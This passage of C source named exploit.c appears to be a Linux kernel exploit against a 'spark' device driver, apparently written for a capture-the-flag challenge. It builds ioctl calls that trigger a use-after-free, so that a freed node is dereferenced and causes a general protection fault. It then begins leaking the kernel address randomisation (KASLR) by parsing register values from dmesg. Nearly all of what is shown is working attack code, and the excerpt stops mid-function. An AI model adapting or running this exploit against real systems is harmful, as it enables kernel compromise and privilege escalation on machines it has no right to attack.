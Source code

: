 ```exploit.c
  ulong cur_edge_idx;
  ulong capacity;
  struct node_struct **nodes;
};

struct node_struct{
  ulong index;
  long refcnt;
  char mutex_state[0x20];
  ulong is_finalized;
  char mutex_nb[0x20];
  ulong num_edge;
  struct edge *prev_edge;
  struct edge *next_edge;
  ulong finalized_idx;
  struct node_info *info;
};

static void _link(int fd0, int fd1, unsigned int weight) {
  assert(fd0 < fd1);
  //printf("[+] Creating link between %d and %d with weight %u\n", fd0-3, fd1-3, weight);
  assert(ioctl(fd0, SPARK_LINK, fd1 | ((unsigned long long) weight << 32)) == 0);
}

static void _query(int fd0, int fd1, int fd2) {
  struct spark_ioctl_query qry = {
    .fd1 = fd1,
    .fd2 = fd2,
  };
  assert(ioctl(fd0, SPARK_QUERY, &qry) == 0);
}

static void _finalize(int fd0) {
  int r = ioctl(fd0, SPARK_FINALIZE);
}

void invoke_gpf()
{
  printf("[+] invoking #GPF...\n");
  for (int i = 0; i < 3; i++) {
    fd[i] = open(DEV_PATH, O_RDONLY);
    assert(fd[i] >= 0);
  }
  _link(fd[0], fd[1], 1); // still, their refcnt==1
  close(fd[0]);   // node0's refcnt==0, then be kfree(), making floating-pointer
  assert(ioctl(fd[1], SPARK_FINALIZE) == 0);  // dereference invalid pointer in node0 and invoke oops, then child be killed.
}

void leak_kaslr()
{
  char buf[0x200];
  char dum[0x200];
  const char *format ="\
[    %f] RSP: 0018:%lx EFLAGS: %lx\n\
[    %f] RAX: %lx RBX: %lx RCX: %lx\n\
[    %f] RDX: %lx RSI: %lx RDI: %lx\n\
[    %f] RBP: %lx R08: %lx R09: %lx\n\
[    %f] R10: %lx R11: %lx R12: %lx\n\
[    %f] R13: %lx R14: %lx R15: %lx";
  float fs[0x10];
  printf("[+] leaking KASLR via dmesg...\n");
  system("dmesg | grep -A13 \"general protection\" | grep -A20 RSP > /tmp/dmesg_leak");
```